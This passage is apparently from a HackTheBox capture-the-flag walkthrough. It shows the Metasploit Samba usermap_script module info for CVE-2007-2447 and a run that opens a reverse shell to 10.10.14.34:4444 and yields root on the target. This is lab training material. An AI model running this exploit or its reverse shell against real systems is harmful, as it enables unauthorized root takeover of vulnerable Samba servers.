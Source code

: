 ```sh
  --  ----
  0   Automatic

Check supported:
  No

Basic options:
  Name    Current Setting  Required  Description
  ----    ---------------  --------  -----------
  RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
  RPORT   139              yes       The target port (TCP)

Payload information:
  Space: 1024

Description:
  This module exploits a command execution vulnerability in Samba 
  versions 3.0.20 through 3.0.25rc3 when using the non-default 
  "username map script" configuration option. By specifying a username 
  containing shell meta characters, attackers can execute arbitrary 
  commands. No authentication is needed to exploit this vulnerability 
  since this option is used to map usernames prior to authentication!

References:
  https://cvedetails.com/cve/CVE-2007-2447/
  OSVDB (34700)
  http://www.securityfocus.com/bid/23972
  http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=534
  http://samba.org/samba/security/CVE-2007-2447.html
```

## Exploit

For this exploit we only have to set the rhosts and run the exploit. 

```sh
msf5 exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP handler on 10.10.14.34:4444 
[*] Command shell session 1 opened (10.10.14.34:4444 -> 10.10.10.3:34509) at 2020-10-30 00:25:19 +0100

id;whoami
uid=0(root) gid=0(root)
root
```

This exploit gave as root access to the Machine. 

Now we have root access we can check for the User.txt and the Root.txt file and submit it to HackTheBox. 
